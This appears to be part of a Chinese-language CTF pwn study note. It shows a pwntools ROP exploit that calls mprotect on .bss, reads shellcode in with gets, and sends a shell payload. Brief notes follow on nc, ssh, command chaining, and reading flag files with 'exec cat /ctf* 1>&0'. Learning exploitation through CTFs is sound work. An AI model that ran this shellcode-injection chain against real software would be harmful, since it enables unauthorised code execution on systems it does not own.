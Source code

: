 ```python
payload = cyclic(40)
payload+= p64(pop_rdi_ret)
payload+= p64(bss_start_addr)
payload+= p64(pop_rsi_ret)
payload+= p64(0x1000)
payload+= p64(pop_rdx_ret)
payload+= p64(0x7)
payload+= p64(libc.sym['mprotect'])
payload+= p64(main)
#gdb.attach(io)
io.sendline(payload)

#step3 : gets_shellcode_to_bss
#非常好用的一小步
payload = cyclic(40)
payload+= p64(pop_rdi_ret)
payload+= p64(shellcode_addr)
payload+= p64(libc.sym['gets'])
payload+= p64(main)

io.sendline(payload)
io.sendline(asm(shellcraft.sh()))
```

#### 动态链接



## 四，linux系统

### 远程链接：

**nc 域名(ip) 端口：**

1. 网络连接工具，常用于端口监听、数据传输等 ，无加密，数据传输为明文 

2. 调试、端口扫描、简单数据传输等 

**ssh username@hostname：** 

1. 安全的远程登录和执行命令， 提供加密，保证数据传输安全 

2. 远程管理、执行命令、文件传输、端口转发等  

### 终端命令：

**1.执行命令：**

- 在Linux命令中，分号（ ; ）用于分隔多个命令，允许在一行上顺序执行多个命令。 
- 可以使用 & 将两条命令拼接在一起可以实现并行执行，即这两条命令将同时在后台执行。
- 在Linux中，通配符 * 表示匹配任意长度（包括零长度）的任意字符序列。 所以cat /ctf*能够读到flag
- exec 函数来执行 sh 命令:   "exec cat /ctf* 1>&0"   (其中1>&0是输出重定向)

2.读写命令：**
